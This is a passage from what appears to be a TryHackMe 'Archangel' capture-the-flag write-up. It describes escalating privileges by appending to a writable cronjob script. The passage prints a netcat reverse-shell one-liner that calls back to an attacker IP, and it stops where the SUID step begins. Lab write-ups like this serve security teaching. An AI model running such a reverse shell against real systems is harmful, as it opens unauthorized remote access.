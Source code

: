 To continue further - one of the first things to enumerate when trying to escalate privileges are cronjobs - scheduled tasks. I noticed this :  

![Cronjob - Archangel](/img/posts/thm-archangel/crontab_user.png)  

We have write privileges on a cronjob of user Archangel which is executing every 1 minute. This is what's inside of the helloworld.sh :  

```bash
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```  

Let's set up a netcat listener and append a reverse shell to the *helloworld.sh* file :  

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.83.183 80 >/tmp/f" >> /opt/helloworld.sh
```


This gives us a shell :  

![Archangel - user](/img/posts/thm-archangel/archangel_user.png)  

# Privilege Escalation
After setting up our tty, we can see the 2 flags (user.txt & user2.txt) and contents of the **secrets/** directory. There is a SUID inside which runs with **root** privileges when run by the user *Archangel*:  
